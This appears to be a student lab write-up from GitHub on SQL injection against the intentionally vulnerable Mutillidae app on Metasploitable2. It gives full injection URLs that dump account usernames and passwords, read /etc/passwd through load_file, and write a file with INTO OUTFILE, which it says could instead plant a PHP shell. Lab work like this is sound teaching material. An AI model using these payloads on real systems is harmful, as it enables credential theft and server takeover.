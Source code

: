 Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![exp8_27](https://github.com/Skanthasishanth/sqlinjection/assets/118298456/18461a46-504f-4ed1-b7d6-73619c29df4d)


## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![exp8_28](https://github.com/Skanthasishanth/sqlinjection/assets/118298456/4e331776-95a4-4555-8b42-c30c0855b078)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.

